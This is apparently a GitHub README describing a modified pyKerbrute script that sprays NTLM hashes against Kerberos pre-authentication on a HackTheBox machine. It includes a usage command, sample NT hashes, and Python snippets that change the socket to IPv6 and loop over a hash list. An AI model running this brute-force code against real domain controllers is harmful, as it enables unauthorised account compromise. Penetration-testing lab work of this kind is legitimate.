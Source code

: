 # NTLMhash bruteforce of kerberos login

I made modifications to ADPwdSpray.py (from [pyKerbrute](https://github.com/3gstudent/pyKerbrute)) for APT of HTB.

<br>

***I'm a beginner so there is still room for improvement.***

<br>

# usage

```
$ python brutehash.py dead:beef::b885:d62a:d679:573f htb.local henry.vinson ntlmhash hash.txt tcp
```

<br>

\*1 This scirt supports only ntlmhash mode and tcp mode of original ADPwdSpray.py

\*2 I used NThash list like following:

```
b300272f1cdab4469660d55fe59415cb
9ea25adafeec63e38cef4259d3b15c30
3ae49ec5e6fed82ceea0dc2be77750ab
```
# what I've modified

## ipv4 -> ipv6 (send_req_tcp)

```python
def send_req_tcp(req, kdc, port=88):
    data = encode(req)
    data = pack('>I', len(data)) + data
    # sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
    # sock.connect((kdc, port))
    sock.connect((kdc, port, 0, 0))
    sock.send(data)
```

## last  part

```python
if __name__ == '__main__':
    kdc_a = sys.argv[1]
    user_realm = sys.argv[2].upper()
    user_name = sys.argv[3]

    file_object = open(sys.argv[5], 'r')

    for line in file_object:
        nthash = line.strip('\n')
        print(nthash)  # just show progress, you can remove this
        user_key = (RC4_HMAC, nthash.decode('hex'))
        passwordspray_tcp(user_realm, user_name, user_key, kdc_a, nthash)
```
## other

- I commentouted `from Crypto.Cipher import MD4, MD5` because of ImportError
- I deleted parts regarding UDP
